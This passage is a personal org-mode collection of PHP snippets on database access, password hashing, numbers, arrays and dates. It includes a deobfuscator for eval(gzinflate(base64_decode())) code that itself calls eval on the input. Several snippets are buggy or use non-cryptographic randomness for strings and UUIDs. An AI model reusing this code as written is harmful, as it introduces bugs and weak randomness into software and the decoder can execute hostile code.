first-order SQL injection attacks. (This isn’t 100% foolproof though, see
Further Reading for more details.) In the past, this had to be achieved with
some arcane combination of “magic quote” functions. PDO makes all that gunk
unnecessary.

#+begin_src php
  <?php
  try{
      // Create a new connection.
      // You'll probably want to replace hostname with localhost in the first parameter.

      // Note how we declare the charset to be utf8mb4. This alerts the connection
      // that we'll be passing UTF-8 data. This may not be required depending on
      // your configuration, but it'll save you headaches down the road if you're
      // trying to store Unicode strings in your database. See "Gotchas".

      // The PDO options we pass do the following:
      // \PDO::ATTR_ERRMODE enables exceptions for errors.  This is optional but can be handy.
      // \PDO::ATTR_PERSISTENT disables persistent connections, which can cause concurrency issues in certain cases.  See "Gotchas".
      $link = new \PDO(   'mysql:host=your-hostname;dbname=your-db;charset=utf8mb4',
                          'your-username',
                          'your-password',
                          array(
                              \PDO::ATTR_ERRMODE => \PDO::ERRMODE_EXCEPTION,
                              \PDO::ATTR_PERSISTENT => false
                          )
                      );

      $handle = $link->prepare('select Username from Users where UserId = ? or Username = ? limit ?');

      // PHP bug: if you don't specify PDO::PARAM_INT, PDO may enclose the
      // argument in quotes. This can mess up some MySQL queries that don't expect
      // integers to be quoted.

      // See: https://bugs.php.net/bug.php?id=44639

      // If you're not sure whether the value you're passing is an integer, use the is_int() function.

      // (This bug was fixed in Oct. 2016, but the fix is not applied to the
      // version of PHP used in this document; see
      // https://bugs.php.net/bug.php?id=73234)

      $handle->bindValue(1, 100, PDO::PARAM_INT);
      $handle->bindValue(2, 'Bilbo Baggins');
      $handle->bindValue(3, 5, PDO::PARAM_INT);

      $handle->execute();

      // Using the fetchAll() method might be too resource-heavy if you're selecting a truly massive amount of rows.
      // If that's the case, you can use the fetch() method and loop through each result row one by one.
      // You can also return arrays and other things instead of objects.  See the PDO documentation for details.
      $result = $handle->fetchAll(\PDO::FETCH_OBJ);

      foreach($result as $row){
          print($row->Username);
      }
  }
  catch(\PDOException $ex){
      print($ex->getMessage());
  }
  ?>
#+end_src 

 - Not passing the PDO::PARAM_INT parameter when binding integer variables can
   sometimes cause PDO to quote them. This can screw up certain MySQL queries.
   See this bug report.

 - Not having set the character set to utf8mb4 in the connection string might
   cause Unicode data to be stored incorrectly in your database, depending on
   your configuration.

 - Even if you declare your character set to be utf8mb4, make sure that your
   actual database tables are in the utf8mb4 character set. For why we use
   utf8mb4 instead of just utf8, check the PHP and UTF-8 section.

 - Enabling persistent connections can possibly lead to weird
   concurrency-related issues. This isn’t a PHP problem, it’s an app-level
   problem. Persistent connections are safe to use as long as you consider the
   consequences. See this Stack Overflow question.

 - You can execute more than one SQL statement in a single execute() call. Just
   separate the statements with semicolons. Ubuntu 12.04 (PHP <= 5.3.10): If
   doing this, beware of this bug, which isn’t fixed in the version of PHP
   shipped with Ubuntu 12.04.

** Storing passwords
Use the built-in password hashing functions to hash and compare passwords.

Hashing is the standard way of protecting a user’s password before it’s stored
in a database. Many common hashing algorithms like md5 and even sha1 are unsafe
for storing passwords, because hackers can easily crack passwords hashed using
those algorithms.

PHP provides a built-in password hashing library that uses the bcrypt algorithm,
currently considered the best algorithm for password hashing.

#+begin_src php 
<?php
// Hash the password.  $hashedPassword will be a 60-character string.
$hashedPassword = password_hash('my super cool password', PASSWORD_DEFAULT);
 
// You can now safely store the contents of $hashedPassword in your database!
 
// Check if a user has provided the correct password by comparing what they typed with our hash
password_verify('the wrong password', $hashedPassword); // false
 
password_verify('my super cool password', $hashedPassword); // true
?>
#+end_src 

 - Many sources will recommend that you also “salt” your password before hashing
   it. That’s a great idea, and password_hash() already salts your password for
   you. That means that you don’t have to salt it yourself.
** random string
#+begin_src php 
function randString($l = 8) {
		return substr(str_shuffle('abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'), 0, $l);
}
#+end_src 

** Generate random UUID
#+begin_src php 
/**
 * Generate a random UUID (version 4).
 *
 * @since 4.7.0
 *
 * @return string UUID.
 */
function wp_generate_uuid4() {
	return sprintf( '%04x%04x-%04x-%04x-%04x-%04x%04x%04x',
		mt_rand( 0, 0xffff ), mt_rand( 0, 0xffff ),
		mt_rand( 0, 0xffff ),
		mt_rand( 0, 0x0fff ) | 0x4000,
		mt_rand( 0, 0x3fff ) | 0x8000,
		mt_rand( 0, 0xffff ), mt_rand( 0, 0xffff ), mt_rand( 0, 0xffff )
	);
}
#+end_src 

* numbers
** Checking Whether a Variable Contains a Valid Number
   
#+begin_src php
<?php
if (is_numeric(5))          { /* true  */ }
if (is_numeric('5'))        { /* true  */ }
if (is_numeric("05"))       { /* true  */ }
if (is_numeric('five'))     { /* false */ }

if (is_numeric(0xDECAFBAD)) { /* true  */ }
if (is_numeric("10e200"))   { /* true  */ }
?>
#+end_src

** comparing floating point numbers

Use a small delta value, and check if the numbers have a difference smaller than that delta:

#+begin_src php
<?php
$delta = 0.00001;

$a = 1.00000001;
$b = 1.00000000;

if (abs($a - $b) < $delta) { /* $a and $b are equal */ }
?>
#+end_src


Floating-point numbers are represented in binary form with only a
finite number of bits for the mantissa and the exponent. You get
overflows when you exceed those bits. As a result, sometimes PHP (just
like some other languages) doesn’t believe that two equal numbers are
actually equal because they may differ toward the very end.

To avoid this problem, instead of checking if $a == $b, make sure the
first number is within a very small amount ($delta) of the second
one. The size of your delta should be the smallest amount of
difference you care about between two numbers. Then use abs() to get
the absolute value of the difference.
** Rounding Floating-Point Numbers

To round a number to the closest integer, use round() :

$number = round(2.4);   // $number = 2

To round up, use ceil() :

$number = ceil(2.4);    // $number = 3

To round down, use floor() :

$number = floor(2.4);   // $number = 2

To keep a set number of digits after the decimal point, round()
accepts an optional precision argument. For example, perhaps you are
calculating thetotal price for the items in a user’s shopping cart:

#+begin_src php
<?php
$cart = 54.23;
$tax = $cart * .05;
$total = $cart + $tax;       // $total = 56.9415

$final = round($total, 2);   // $final = 56.94
?>
#+end_src

** Converting between bases
Use the base_convert() function:
#+begin_src php
$hex = 'a1';                           // hexadecimal number (base 16)

// convert from base 16 to base 10
$decimal = base_convert($hex, 16, 10); // $decimal is now 161
#+end_src 

The base_convert() function changes a string in one base to the
correct string in another. It works for all bases from 2 to 36
inclusive, using the letters a through z as additional symbols for
bases above 10. The first argument is the number to be converted,
followed by the base it is in and the base you want it to become.

There are also a few specialized functions for conversions to and from
base 10 and the most commonly used other bases of 2, 8,
and 16. They’re bindec() and decbin(), octdec() and decoct(), and
hexdec() and dechex() :

#+begin_src php
// convert to base 10
print bindec(11011); // 27
print octdec(33);    // 27
print hexdec('1b');  // 27

// convert from base 10
print decbin(27);    // 11011
print decoct(27);    // 33
print dechex(27);    // 1b
#+end_src 

Another alternative is to use printf(), which allows you to convert
decimal numbers to binary, octal, and hexadecimal numbers with a wide
range of formatting, such as leading zeros and a choice between upper-
and lowercase letters for hexadecimal numbers.

For instance, say you want to print out HTML color values:
#+begin_src php
printf('#%02X%02X%02X', 0, 102, 204); // #0066CC
#+end_src 

** Rounded random numbers
#+begin_src php
$foo = ROUND(RAND(1, 1000));
#+end_src

** Weighted Random Choice
#+begin_src php
<?PHP
 
// Give higher priorities to the users who pay the most.
// Gives lowest-priced rows the highest priority:
 
SELECT * FROM LINK ORDER BY RAND()*payPerClick/RAND();
 
 
// Gives highest-priced rows the highest priority
 
SELECT 'field' FROM 'table' WHERE 'ppc' > 0 ORDER BY RAND() / 'ppc' * RAND()
 
// Running the query above 6000 times produces:
// 3 cent: 402
// 4 cent: 517
// 5 cent: 615
// 7 cent: 800
// 9 cent: 1020
// 11 cent: 1214
// 13 cent: 1432
 
 
// OR
 
FUNCTION w_rand($weights) {
    $r = MT_RAND(1,1000);
    $offset = 0;
    FOREACH ($weights AS $k => $w) {
        $offset += $w*1000;
        IF ($r <= $offset) {
            RETURN $k;
        }
    }
} 
 
?>
#+end_src

** Base 64 Decode
Description: I recently ran across a freeware web application written in PHP
that utilized the following method to encrypt its source code. You can decode
the encoded script with this PHP snippet.

#+begin_src php
<?PHP 
 
// sample is encoded like this:
// eval(gzinflate(base64_decode('encoded text'))); 
 
 
ECHO "\nDECODE nested eval(gzinflate()) by DEBO Jurgen <jurgen@person.be>\n\n";
ECHO "1. Reading coded.txt\n";
$fp1 = FOPEN ("coded.txt", "r");
$contents = FREAD ($fp1, FILESIZE ("coded.txt"));
FCLOSE($fp1);
ECHO "2. Decoding\n";
WHILE (PREG_MATCH("/eval\(gzinflate/",$contents)) {
  $contents=PREG_REPLACE("/< \?|\?>/", "", $contents);
  EVAL(PREG_REPLACE("/eval/", "\$contents=", $contents));
}
ECHO "3. Writing decoded.txt\n";
$fp2 = FOPEN("decoded.txt","w");
FWRITE($fp2, TRIM($contents));
FCLOSE($fp2);
 
/*
1.) Save the code you wish to decode in coded.txt
2.) Save the above PHP snippet in file like decrypt.php
3.) Create an empty text file called decoded.txt and it CHMOD it to 0666.
4.) Run decrypt.php and open up decoded.txt to view the source code.
*/
 
?>
#+end_src

** Bad word filter
   
#+begin_src php
<?
 
// BadWordFilter
// This function does all the work. If $replace is 1 it will replace all bad words
// with the wildcard replacements.  If $replace is 0 it will not replace anything.
// In either case, it will return 1 if it found bad words or 0 otherwise.
// Be sure to fill the $bads array with the bad words you want filtered.
 
FUNCTION BadWordFilter(&$text, $replace){
 
     // fill this array with the bad words you want to filter and their replacements
     $bads = ARRAY (
          ARRAY("butt","b***"),
          ARRAY("poop","p***"),
          ARRAY("crap","c***")
     );
 
     IF($replace==1) {                                        //we are replacing
          $remember = $text;
 
          FOR($i=0;$i<sizeof($bads);$i++) {               //go through each bad word
               $text = EREGI_REPLACE($bads[$i][0],$bads[$i][1],$text); //replace it
          }
 
          IF($remember!=$text) RETURN 1;                     //if there are any changes, return 1
 
     } ELSE {                                                  //we are just checking
 
          FOR($i=0;$i<sizeof($bads);$i++) {               //go through each bad word
               IF(EREGI($bads[$i][0],$text)) RETURN 1; //if we find any, return 1
          }     
     }
}
 
// this will replace all bad words with their replacements. $any is 1 if it found any
$any = BadWordFilter($wordsToFilter,1); 
 
// this will not repace any bad words. $any is 1 if it found any
$any = BadWordFilter($wordsToFilter,0); 
 
?>
#+end_src

** Ordinalize (Suffix) Numbers

#+begin_src php
<?PHP
 
FUNCTION ordinalize($number) {
 
  IF (IN_ARRAY(($number % 100),RANGE(11,13))){
      RETURN $number.'th';
  }ELSE{
      SWITCH (($number % 10)) {
        CASE 1:
            RETURN $number.'st';
        BREAK;
            CASE 2:
            RETURN $number.'nd';
        BREAK;
        CASE 3:
            RETURN $number.'rd';
        DEFAULT:
            RETURN $number.'th';
        BREAK;
      }
    }
}
?>
#+end_src

* arrays
** check for empty array

#+begin_src php
empty([]) // true
#+end_src

** sum of items in an array

#+begin_src php
$scores  = array(98, 76, 56, 80);
$total   = array_sum($scores);    // $total = 310
#+end_src

** Specifying an Array Not Beginning at Element 0
Instruct array() to use a different index using the => syntax:
#+begin_src php
$residents = array(1 => 'Washington', 'Adams', 'Jefferson', 'Madison');

foreach ($presidents as $number => $president) {
    print "$number: $president\n";
}
#+end_src

** Storing Multiple Elements Per Key in an Array

Store the multiple elements in an array:

#+begin_src php
$fruits = array('red' => array('strawberry','apple'),
                'yellow' => array('banana'));
#+end_src
 
Or use an object:

#+begin_src php
while ($obj = mysql_fetch_object($r)) {
    $fruits[] = $obj;
}
#+end_src

In PHP, keys are unique per array, so you can’t associate more than
one entry in a key without overwriting the old value. Instead, store
your values in an anonymous array:
#+begin_src php
$fruits['red'][] = 'strawberry';
$fruits['red'][] = 'apple';
$fruits['yellow'][] = 'banana';
#+end_src
 
Or, if you’re processing items in a loop:

#+begin_src php

while (list($color,$fruit) = mysql_fetch_array($r)) {
    $fruits[$color][] = $fruit;
}

#+end_src

To print the entries, loop through the array:

#+begin_src php
foreach ($fruits as $color=>$color_fruit) {
    // $color_fruit is an array
    foreach ($color_fruit as $fruit) {
        print "$fruit is colored $color.<br>";
    }
}
#+end_src

** Initializing an Array to a Range of Integers
#+begin_src php
range($start, $stop):
$cards = range(1, 52);
#+end_src 

** Iterating through an array
Use foreach:

#+begin_src php 
foreach ($array as $value) {
    // Act on $value
}

#Or to get an array’s keys and values:

foreach ($array as $key => $value) {
    // Act II
}

#Another technique is to use for:

for ($key = 0, $size = count($array); $key < $size; $key++) {
   // Act III
}

#Finally, you can use each() in combination with list() and while:

reset($array) // reset internal pointer to beginning of array
while (list($key, $value) = each ($array)) {
    // Final Act
}
#+end_src 

** Deleting elements from an array
To delete one element, use unset():
#+begin_src php
unset($array[3]);
unset($array['foo']);
#+end_src 
To delete multiple noncontiguous elements, also use unset():
#+begin_src php
unset($array[3], $array[5]);
unset($array['foo'], $array['bar']);
#+end_src 
To delete multiple contiguous elements, use array_splice():
#+begin_src php
array_splice($array, $offset, $length);
#+end_src 

** Changing array size

Use array_pad() to make an array grow:

#+begin_src php 

// start at three
$array = array('apple', 'banana', 'coconut');

// grow to five
$array = array_pad($array, 5, '');

//Now, count($array) is 5, and the last two elements, $array[3] and $array[4], contain the empty string.
//To reduce an array, you can use array_splice():

// no assignment to $array
array_splice($array, 2);

// This removes all but the first two elements from $array.
#+end_src 

** Check if array is associative
#+begin_src php
<?PHP
function is_assoc_array($array){
    if(is_array($array) && !is_numeric(array_shifT(array_keys($array)))){
        return true;
    }
    return false;
}
//another one from Limesurvay
function isAssociative($array)
{
  foreach($array as $key => $value)
  {
    if ( is_string($key))
    {
      return true;
    }
  }
  return false;
}

?>
#+end_src 

** Pick Randomly from Array
#+begin_src php
 <?PHP
 
// This method only works where the elements exist AND are 
// sequentially numbered. If you unset() elements from the 
// array, you may end up picking elements that no longer exist. 
 
$quote = $quotes_array[RAND(0, COUNT($quotes_array) - 1)]; 
 
?>
#+end_src

** Determine if the variable is a numeric-indexed array.
#+begin_src php 
 /*
 * @param mixed $data Variable to check.
 * @return bool Whether the variable is a list.
 */
function wp_is_numeric_array( $data ) {
	if ( ! is_array( $data ) ) {
		return false;
	}

	$keys = array_keys( $data );
	$string_keys = array_filter( $keys, 'is_string' );
	return count( $string_keys ) === 0;
}
#+end_src 

** ARRAY KEY WHITELIST AND BLACKLIST
#+begin_src php
function whitelist(array $array, array $whitelist)
{
    return array_intersect_key($array, array_flip($whitelist));
}

$filtered = whitelist($array, ['good1', 'good2', ... ]);
function blacklist(array $array, array $blacklist)
{
    return array_diff_key($array, array_flip($blacklist));
}

$filtered = blacklist($array, ['bad1', 'bad2', ...]);
#+end_src

* Date and Time
** Finding the Current Date and Time
Use strftime() or date() for a formatted time string, as in Example 3-2.

*Example 3-2. Finding the current date and time*
#+begin_src php
<?php
print strftime('%c');
print "\n";
print date('r');
?>
#+end_src
 
Example 3-2 prints:
#+begin_src 
Wed May 10 18:29:59 2006
Wed, 10 May 2006 18:29:59 -0400
#+end_src
 
*Use getdate() or localtime() if you want time parts.*
Example 3-3 shows how these functions work.

Example 3-3. Finding time parts
#+begin_src php
<?php
$now_1 = getdate();
$now_2 = localtime();
print "{$now_1['hours']}:{$now_1['minutes']}:{$now_1['seconds']}\n";
print "$now_2[2]:$now_2[1]:$now_2[0]";
#+end_src
 
Example 3-3 prints:
#+begin_src 
18:23:45
18:23:45
#+end_src
 
*Example 3-4 shows how to use getdate() to print out the month, day, and year.*

Example 3-4. Finding the month, day, and year
#+begin_src php
<?php
$a = getdate();
printf('%s %d, %d',$a['month'],$a['mday'],$a['year']);
?>
#+end_src
 
Example 3-4 prints:
#+begin_src 
May 5, 2007
#+end_src
 
Pass getdate() an epoch timestamp as an argument to make the returned
array the appropriate values for local time at that timestamp. The
month, day, and year at epoch timestamp 163727100 is shown in Example
3-5.

Example 3-5. getdate() with a specific timestamp
#+begin_src php
<?php
$a = getdate(163727100);
printf('%s %d, %d',$a['month'],$a['mday'],$a['year']);
?>
#+end_src
 
Example 3-5 prints:
#+begin_src 
March 10, 1975
#+end_src
 
The function localtime() returns an array of time and date parts. It
also takes an epoch timestamp as an optional first argument, as well
as a boolean as an optional second argument. If that second argument
is true, localtime() returns an associative array instead of a
numerically indexed array. The keys of that array are the same as the
members of the tm_struct structure that the C function localtime()
returns, as shown in Table 3-2.

*Example 3-6 shows how to use localtime() to print out today’s date in month/day/year format.*

Example 3-6. Using localtime()
#+begin_src php
<?php
$a = localtime();
$a[4] += 1;
$a[5] += 1900;
print "$a[4]/$a[3]/$a[5]";
#+end_src
 
Example 3-6 prints:
#+begin_src 
6/23/2006
#+end_src
 
The month is incremented by 1 before printing since localtime() starts
counting months with 0 for January, but we want to display 1 if the
current month is January. Similarly, the year is incremented by 1900
because localtime() starts counting years with 0 for 1900.

** Converting Time and Date Parts to an Epoch Timestamp

Use mktime() if your time and date parts are in the local time zone,
as shown in Example 3-7.

Example 3-7. Getting a specific epoch timestamp
#+begin_src php
<?php
// 7:45:03 PM on March 10, 1975, local time
$then = mktime(19,45,3,3,10,1975);
?>
#+end_src
 
Use gmmktime() , as in Example 3-8, if your time and date parts are in
GMT.

Example 3-8. Getting a specific GMT-based epoch timestamp
#+begin_src php
<?php
// 7:45:03 PM on March 10, 1975, in GMT
$then = gmmktime(19,45,3,3,10,1975);
?>
#+end_src
 
** Converting an Epoch Timestamp to Time and Date Parts
Pass an epoch timestamp to getdate(): $time_parts = getdate(163727100);.
** Finding the Difference of Two Dates
Convert both dates to epoch timestamps and subtract one from the
other. Example 3-13 separates the difference into weeks, days, hours,
minutes, and seconds.

Example 3-13. Calculating the difference between two dates
#+begin_src php
<?php
// 7:32:56 pm on May 10, 1965
$epoch_1 = mktime(19,32,56,5,10,1965);
// 4:29:11 am on November 20, 1962
$epoch_2 = mktime(4,29,11,11,20,1962);

$diff_seconds  = $epoch_1 - $epoch_2;
$diff_weeks    = floor($diff_seconds/604800);
$diff_seconds -= $diff_weeks   * 604800;
$diff_days     = floor($diff_seconds/86400);
$diff_seconds -= $diff_days    * 86400;
$diff_hours    = floor($diff_seconds/3600);
$diff_seconds -= $diff_hours   * 3600;
$diff_minutes  = floor($diff_seconds/60);
$diff_seconds -= $diff_minutes * 60;

print "The two dates have $diff_weeks weeks, $diff_days days, ";
print "$diff_hours hours, $diff_minutes minutes, and $diff_seconds ";
print "seconds elapsed between them.";
?>
#+end_src

Example 3-13 prints:

The two dates have 128 weeks, 6 days, 14 hours, 3 minutes, 
and 45 seconds elapsed between them.

Note that the difference isn’t divided into larger chunks than weeks
(i.e., months or years) because those chunks have variable length and
wouldn’t give an accurate count of the time difference calculated.

** date difference using ~DateInterval~
#+begin_src php
<?php
$datetime1 = new DateTime('2009-10-11');
$datetime2 = new DateTime('2009-10-13');
$interval = $datetime1->diff($datetime2);
echo $interval->format('%R%a days');
?>
#+end_src
 
Procedural style
#+begin_src php
<?php
$datetime1 = date_create('2009-10-11');
$datetime2 = date_create('2009-10-13');
$interval = date_diff($datetime1, $datetime2);
echo $interval->format('%R%a days');
?>
#+end_src
 
The above examples will output:

+2 days

** number of days between two dates
#+begin_src php
$today->diff($yesterday)->days;

date_diff($today, $yesterday)->days;

// using epoch timestamp
// 86400 is number of seoconds in day
$today->getTimestamp() - $yesterday->getTimestamp()/86400;
#+end_src

** convert seconds to time with format HH:MM:SS
#+begin_src php
date('H:i:s', $seconds);
#+end_src

** current minute, second

#+begin_src php 
$currentMinute = ltrim(date('i'),'0');
$currentSecond = date('s')+0;
#+end_src

** Convert minutes to hours #1
#+begin_src php
<?PHP
 
// convert minutes to hours:minutes
$act_elapsedHoursMins = SPRINTF("%d:%02d", ABS((int)($act_elapsed_mins/60)), ABS((int)($act_elapsed_mins%60)));
 
$sch_elapsedHoursMins = SPRINTF("%d:%02d", ABS((int)($sch_elapsed_mins/60)), ABS((int)($sch_elapsed_mins%60)));
 
?>
#+end_src

** Convert minutes to hours #2
#+begin_src php
 <?PHP
$hours = SPRINTF(”%d:%02d”, ABS((int)$min/60), ABS((int)$min%60));
 
//convert to "1.25" hours
$elapsedTime = SPRINTF("%01.1f", $elapsed_mins/60);
 
?> 
#+end_src

** Creating a PHP date in the format for a SQL Timestamp insert
*** example #1
you can get the current date and time in the proper format using just PHP, like this:

#+begin_src php
$timestamp = date('Y-m-d G:i:s');
//If you print this out, your $timestamp field will now contain contents like this:
//2011-08-06 14:54:17
#+end_src

*** Getting a timestamp for some other date and time
   
Note that the PHP date function defaults to the current date and time. This is
exactly what I need for my purposes here. If you need to create a formatted
timestamp field for some other date and time, you can do that something like
this:

#+begin_src php
$timestamp = date('Y-m-d G:i:s', mktime(0, 0, 0, 7, 1, 2000));
//Here are some other mktime examples:
$tomorrow  = mktime(0, 0, 0, date("m")  , date("d")+1, date("Y"));
$lastmonth = mktime(0, 0, 0, date("m")-1, date("d"),   date("Y"));
$nextyear  = mktime(0, 0, 0, date("m"),   date("d"),   date("Y")+1);
#+end_src

** PHP string to date 

The following PHP code shows the two steps I used to convert a date string into
a PHP date structure I could work with:
#+begin_src php 
<?php

// (1) returns a Unix timestamp, like 1304496000
$time = strtotime("2011/05/21");

// (2) getDate() returns an associative array containing the date 
// information of the timestamp, or the current local time if 
// no timestamp is given
$date = getDate($time);

print_r($date);

?>
When printed, the $date data structure (a hash) looks like this:

Array
(
  [seconds] => 0
  [minutes] => 0
  [hours] => 0
  [mday] => 21
  [wday] => 6
  [mon] => 5
  [year] => 2011
  [yday] => 140
  [weekday] => Saturday
  [month] => May
  [0] => 1305964800
)
#+end_src

** next month
#+begin_src php
$next_month = getDate(mktime(1, 1, 1, $date['mon'] + 1, $date["mday"], $date["year"];));
#+end_src 

** next day
#+begin_src php
function nextDay(DateTime $date)
{
  $next_day = clone $date;
  return $next_day->modify('+1 day');
}
#+end_src 

** PHP date validation
the basic PHP date validation technique is to use the checkdate function, like this:

#+begin_src php
$valid = checkdate($month, $day, $year);

#+end_src

The PHP checkdate function returns true if:
$month is between 1 and 12,
$year is between 1 and 32767, and
$day is between 1 and the correct maximum number of days for the given month and year (correctly handling leap years).

Used in a PHP if/then statement, the PHP checkdate function call looks like this:

#+begin_src php
if (checkdate($month, $day, $year)) {
  // do something
}
#+end_src 

** Working with dates and times (/bestpractice/)
*Use the DateTime class.*

In the bad old days of PHP we had to work with dates and times using a
bewildering combination of date(), gmdate(), date_timezone_set(), strtotime(),
and so on. Sadly you’ll still find lots of tutorials online featuring these
difficult and old-fashioned functions.

Fortunately for us, the version of PHP we’re talking about features the much
friendlier DateTime class. This class encapsulates all the functionality and
more of the old date functions in one easy-to-use class, with the bonus of
making time zone conversions much simpler. Always use the DateTime class for
creating, comparing, changing, and displaying dates in PHP.

#+begin_src php 
<?php
// Construct a new UTC date.  Always specify UTC unless you really know what you're doing!
$date = new DateTime('2011-05-04 05:00:00', new DateTimeZone('UTC'));
 
// Add ten days to our initial date
$date->add(new DateInterval('P10D'));
 
echo($date->format('Y-m-d h:i:s')); // 2011-05-14 05:00:00
 
// Sadly we don't have a Middle Earth timezone
// Convert our UTC date to the PST (or PDT, depending) time zone
$date->setTimezone(new DateTimeZone('America/Los_Angeles'));
 
// Note that if you run this line yourself, it might differ by an hour depending on daylight savings
echo($date->format('Y-m-d h:i:s')); // 2011-05-13 10:00:00
 
$later = new DateTime('2012-05-20', new DateTimeZone('UTC'));
 
// Compare two dates
if($date < $later)
    echo('Yup, you can compare dates using these easy operators!');
 
// Find the difference between two dates
$difference = $date->diff($later);
 
echo('The 2nd date is ' . $difference->days . ' later than 1st date.');
?>
#+end_src

 - If you don’t specify a time zone, DateTime::__construct() will set the
   resulting date’s time zone to the time zone of the computer you’re running
   on. This can lead to spectacular headaches later on. Always specify the UTC
   time zone when creating new dates unless you really know what you’re doing.

 - If you use a Unix timestamp in DateTime::__construct(), the time zone will
   always be set to UTC regardless of what you specify in the second argument.

 - Passing zeroed dates (e.g. “0000-00-00”, a value commonly produced by MySQL
   as the default value in a DateTime column) to DateTime::__construct() will
   result in a nonsensical date, not “0000-00-00”.

 - Using DateTime::getTimestamp() on 32-bit systems will not represent dates past 2038. 64-bit systems are OK.

** Count days between dates
#+begin_src php
<?PHP
 
// First Date: 1 January 2005
// Second Date: 27 January 2005
 
$first_date = MKTIME(12,0,0,1,1,2005);
$second_date = MKTIME(12,0,0,1,27,2005);
 
$offset = $second_date-$first_date;
 
ECHO FLOOR($offset/60/60/24) . " days";
 
// This will display: 26 days. 
 
?>
#+end_src

** Convert 12 to 24 hour time and vice versa
#+begin_src php
<?PHP
 
// 24-hour time to 12-hour time 
$time_in_12_hour_format  = DATE("g:i a", STRTOTIME("13:30"));
 
// 12-hour time to 24-hour time 
$time_in_24_hour_format  = DATE("H:i", STRTOTIME("1:30 pm"));
 
?>
#+end_src

** UNIX Timestamp conversion
#+begin_src php
<?PHP
// produces a timestamp that looks like "YYYY-MM-DD 24:00:00":
$formated_datetime = DATE("Y-m-d H:i:s");
 
// takes $formated_datetime and converts to "UNIX timestamp":
$unix_timestamp = STRTOTIME($formated_datetime);
 
// converts $unix_timestamp to "normal" formated_datetime:         
$formated_datetime = DATE("Y-m-d H:i:s",$unix_timestamp);   
?>
#+end_src

** What Season Is It?
#+begin_src php
<?PHP 
 
FUNCTION season() {
   $limits=ARRAY('/12/21'=>'Winter','/09/21'=>'Autumn','/06/21'=>'Summer','/03/21'=>'Spring','/12/31'=>'Winter');
   FOREACH ($limits AS $key => $value) {
       $limit=DATE("Y").$key;
       IF (STRTOTIME("now")>strtotime($limit)) {
           RETURN $value;
       }
   }
}
 
ECHO season();
 
?>
#+end_src

** Days in month #1
#+begin_src php
<?PHP
 
//return the number of days for this month and this year
$ndays = DATE("t"); 
 
// You can also specify a date
$ndays = DATE("t", MKTIME(0, 0, 0, 12, 1, 2004)); 
 
?> 
#+end_src

** Days in month #2
#+begin_src php
<?PHP
 
/*
days_in_month($month, $year)
Returns the number of days in a given month and 
year, taking into account leap years.
 
$month: numeric month (integers 1-12)
$year: numeric year (any integer)
 
*/
 
FUNCTION days_in_month($month, $year){
// calculate number of days in a month
RETURN $month == 2 ? ($year % 4 ? 28 : ($year % 100 ? 29 : ($year % 400 ? 28 : 29))) : (($month - 1) % 7 % 2 ? 30 : 31);
}
?> 
#+end_src

** How many days ago
#+begin_src php
<?PHP
 
// convert a date into a string that tells how long 
// ago that date was.... eg: 2 days ago, 3 minutes ago.
FUNCTION ago($d) {
     $c = GETDATE();
     $p = ARRAY('year', 'mon', 'mday', 'hours', 'minutes', 'seconds');
     $display = ARRAY('year', 'month', 'day', 'hour', 'minute', 'second');
     $factor = ARRAY(0, 12, 30, 24, 60, 60);
     $d = datetoarr($d);
     FOR ($w = 0; $w < 6; $w++) {
          IF ($w > 0) {
               $c[$p[$w]] += $c[$p[$w-1]] * $factor[$w];
               $d[$p[$w]] += $d[$p[$w-1]] * $factor[$w];
          }
          IF ($c[$p[$w]] - $d[$p[$w]] > 1) { 
               RETURN ($c[$p[$w]] - $d[$p[$w]]).' '.$display[$w].'s ago';
          }
     }
     RETURN '';
}
 
// you can replace this if need be. This converts the dates 
// returned from a mysql date string into an array object similar 
// to that returned by getdate().
FUNCTION datetoarr($d) {
     PREG_MATCH("/([0-9]{4})(\\-)([0-9]{2})(\\-)([0-9]{2}) ([0-9]{2})(\\:)([0-9]{2})(\\:)([0-9]{2})/", $d, $matches);
    RETURN ARRAY( 
          'seconds' => $matches[10], 
          'minutes' => $matches[8], 
          'hours' => $matches[6],  
          'mday' => $matches[5], 
          'mon' => $matches[3],  
          'year' => $matches[1], 
     );
}
 
?>
#+end_src

** Find days between dates #1
#+begin_src php
<?PHP
 
$dt=ARRAY("27.01.1985","12.09.2008");
$dates=ARRAY();
$i=0;
WHILE(STRTOTIME($dt[1])>=STRTOTIME("+".$i." day",STRTOTIME($dt[0])))
$dates[]=DATE("Y-m-d",STRTOTIME("+".$i++." day",STRTOTIME($dt[0])));
 
FOREACH($dates AS $value) ECHO $value."<br />"; 
 
?>
#+end_src

*** variables
** Establishing a Default Value
Use isset() to assign a default to a variable that may already have a value:
#+begin_src php
if (! isset($cars)) { $cars = $default_cars; }
#+end_src 

Use the ternary (a ? b : c) operator to give a new variable a (possibly default) value:
#+begin_src php
$cars = isset($_REQUEST['cars']) ? $_REQUEST['cars'] : $default_cars;
#+end_src 

Using isset() is essential when assigning default values. Without it,
the nondefault value can’t be 0 or anything else that evaluates to
false. Consider this assignment:

#+begin_src php
$cars = $_REQUEST['cars'] ? $_REQUEST['cars'] : $default_cars;
#+end_src 

If $_REQUEST['cars'] is 0, $cars is set to $default_cars even though 0
may be a valid value for $cars.

An alternative syntax for checking arrays is the array_key_exists() function:
#+begin_src php
$cars = array_key_exists('cars', $_REQUEST) ? $_REQUEST['cars'] : $default_cars;
#+end_src 
The one difference between isset() and array_key_exists() is that when
a key exists but its value is null, then array_key_exists() returns
true, while isset() returns false:
#+begin_src php
$vehicles = array('cars' => null);
array_key_exists('cars', $vehicles); // true
isset($vehicles['cars']);            // false
#+end_src 

** Exchanging Values Without Using Temporary Variables
To swap $a and $b:
#+begin_src php
list($a,$b) = array($b,$a);
#+end_src 

** Creating a Dynamic Variable Name
You want to construct a variable’s name dynamically. For example, you
want to use variable names that match the field names from a database
query.

Use PHP’s variable variable syntax by prepending a $ to a variable
whose value is the variable name you want:
#+begin_src php
$animal = 'turtles';
$turtles = 103;
print $$animal;    // 103
#+end_src

Using curly braces , you can construct more complicated expressions that indicate variable names:

$stooges = array('Moe','Larry','Curly');
$stooge_moe = 'Moses Horwitz';
$stooge_larry = 'Louis Feinberg';
$stooge_curly = 'Jerome Horwitz';

foreach ($stooges as $s) {
  print "$s's real name was ${'stooge_'.strtolower($s)}.\n";
}
Moe's real name was Moses Horwitz.
Larry's real name was Louis Feinberg.
Curly's real name was Jerome Horwitz.

PHP evaluates the expression between the curly braces and uses it as a
variable name. That expression can even have function calls in it,
such as strtolower().

Variable variables are also useful when iterating through similarly
